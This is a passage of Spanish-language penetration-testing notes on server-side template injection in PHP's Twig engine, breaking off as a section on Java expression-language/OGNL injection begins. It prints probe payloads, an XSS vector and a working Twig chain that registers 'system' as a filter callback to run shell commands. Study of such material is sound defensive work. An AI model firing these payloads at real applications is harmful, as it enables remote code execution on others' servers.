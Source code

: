 Ramita PHP:

https://github.com/s4n7h0/xvwa

```
{ {5*5} } 
# results in "25"

{ {<svg/onload=confirm(1)>} }
# u can observe a XSS vuln
```

Twig usaba un objeto conocido llamado \*_\*_ = instancia de aplicación actual

* Uno de los atributos de \_self de ramitas se denomina **env** y contiene otros métodos a los que se puede llamar

→ https://github.com/twigphp/Twig/blob/e22fb8728b395b306a06785a3ae9b12f3fbc0294/lib/Twig/Environment.php

Ejemplo _de función de visualización_:

```
{ { _self.env.display("xyz") } }
```

La ejecución de comandos a través de la función getFilter debe realizarse de la siguiente manera:

```
- Call registerUndefinedFilterCallback, which allows us to register any function as a filter callback
- The filter callback is then called by invoking _self.env.getFilter()
```

Ejemplo:

```
{ { _self.env.registerUndefinedFilterCallback("system") } } { {_self.env.getFilter("whoami") } }
```

Además:

```
- https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf
```

### Lenguaje de expresión / Inyección OGNL <a href="#expression-language--ognl-injection" id="expression-language--ognl-injection"></a>

Las aplicaciones Java son fácilmente reconocibles porque:

```
- Use common extensions like .jsp or .jsf
- Throw stack traces on errors
- Use known terms in headers like "Servlet"
```

Confirme la inyección con un resultado de cálculo:
